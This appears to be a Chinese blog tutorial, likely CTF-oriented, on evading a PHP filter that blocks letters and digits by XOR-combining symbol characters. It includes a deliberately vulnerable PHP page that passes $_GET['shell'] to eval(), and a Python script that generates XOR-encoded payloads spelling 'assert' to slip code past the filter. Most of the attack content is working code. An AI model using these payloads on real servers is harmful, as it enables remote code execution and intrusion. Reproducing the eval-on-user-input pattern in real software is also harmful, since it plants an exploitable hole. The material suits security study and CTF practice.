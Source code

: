 ![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060216080145.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602160807899.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602161219883.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602161225556.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 异或绕过
适用PHP版本：无限制
例如：我们异或 ? 和 ~ 之后得到的是 A

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602161622238.png#pic_center)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(preg_match('/[a-z0-9]/is', $_GET['shell'])){
	echo "hacker!!";
}else{
	eval($_GET['shell']);
}
?>
```

```python
异或脚本

# -*- coding: utf-8 -*-
payload = "assert"
strlist = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
#strlist是ascii表中所有非字母数字的字符十进制
str1,str2 = '',''

for char in payload:
    for i in strlist:
        for j in strlist:
            if(i ^ j == ord(char)):
                i = '%{:0>2}'.format(hex(i)[2:])
                j = '%{:0>2}'.format(hex(j)[2:])
                print("('{0}'^'{1}')".format(i,j),end=".")
                break
        else:
            continue
        break
```

一次代码执行只能得到我们想要执行语句的字符串，并不能执行语句，所以需要执行两次代码进行构造
使用脚本对每个字母进行转换，然后拼接
